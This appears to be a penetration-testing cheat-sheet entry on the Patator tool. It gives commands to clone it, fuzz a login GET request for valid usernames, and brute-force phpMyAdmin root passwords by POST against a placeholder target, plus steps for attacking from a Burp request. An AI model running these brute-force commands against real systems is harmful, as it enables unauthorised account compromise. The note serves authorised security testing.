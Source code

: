 ```
git clone https://github.com/lanjelot/patator && cd patator
```
#### Blind SQL injection
[[8._Blind SQL]]
#### Fuzz Get Request
```bash
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```
#### Fuzz Post Request
```bash
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```
#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.
Right click > copy to file > "copy to file" as text file.
